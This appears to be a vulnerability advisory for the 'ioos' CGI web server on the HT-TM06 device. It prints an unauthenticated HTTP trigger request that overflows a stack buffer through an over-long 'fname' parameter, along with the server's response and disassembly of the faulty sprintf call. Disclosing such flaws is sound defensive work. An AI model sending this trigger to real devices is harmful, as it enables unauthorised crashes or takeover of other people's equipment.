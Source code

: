 *Binary:* /usr/sbin/ioos

`ioos` is a webserver responsible for handling the CGI content of the HT-TM06 web interface. Labeling itself `vshttpd` on HTTP responses, it responds to requests behind a lighttpd proxy. The function of ioos is to coordinate user sessions, authenticate users and reconfigure the system upon request. The webserver is configured to respond to `*.csp` requests such as `GET /protocol.csp`.

Upon closer analysis it was discovered that the ioos webserver has a stack overflow memory corruption vulnerability which can be triggered by an unauthenticated attacker. Most requests require an authentication token in the cookie to process, but the parameters abused by this vulnerability are processed before those checks are completed.

The trigger HTTP request looks as follows:

```
GET /protocol.csp?fname=[long string]&opt=userlock&username=guest&function=get HTTP/1.1
Host: 192.168.1.1
Connection: keep-alive
Cache-Control: no-cache
If-Modified-Since: 0
Accept: */*
Referer: http://192.168.1.1/
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8,ru;q=0.6
```

Notice that the parameter `fname` contains a very long string - longer than 256 bytes. That is what causes the overflow condition. Normally this string is just a few bytes.

A response to this request (without triggering the memory corruption) looks like this:

```
HTTP/1.1 200 OK
Server: vshttpd
Cache-Control: no-cache
Pragma: no-cache
Expires: 0
Content-length: 87
Content-type: text/xml;charset=UTF-8
Set-cookie: SESSID=Xqo72sI1QVtjqoHZWUgOE9 BYbWRzLH7yWvF2PgTv4dPl;
Date: Tue, 24 Jan 2017 15:46:16 GMT

<?xml version="1.0" ?><root><[long string]><waninfo><errno>0</errno></waninfo></[long string]></root>
```

So, it becomes clear that the `fname` parameter is used to construct the XML response string. Looking at the disassembly we can see that the parameter value is used in the `xml_add_elem` function. This function appends a formatted string value to the response message string.

```
xml_add_elem:
.text:00512684 28 01 A2 27    addiu   $v0, $sp, 0x238+var_110  # Add Immediate Unsigned
.text:00512688 21 20 40 00    move    $a0, $v0         # s
.text:0051268C 38 80 85 8F    li      $a1, 0x540000    # Load Immediate
.text:00512690 00 00 00 00    nop
.text:00512694 E8 7A A5 24    addiu   $a1, (aS_19 - 0x540000)  # "</%s>"
.text:00512698 3C 02 A6 8F    lw      $a2, 0x238+element_name($sp)  # Load Word

.text:0051269C E0 87 99 8F    la      $t9, sprintf     # Load Address
.text:005126A0 00 00 00 00    nop
.text:005126A4 09 F8 20 03    jalr    $t9 ; sprintf    # Jump And Link Register
.text:005126A8 00 00 00 00    nop
```
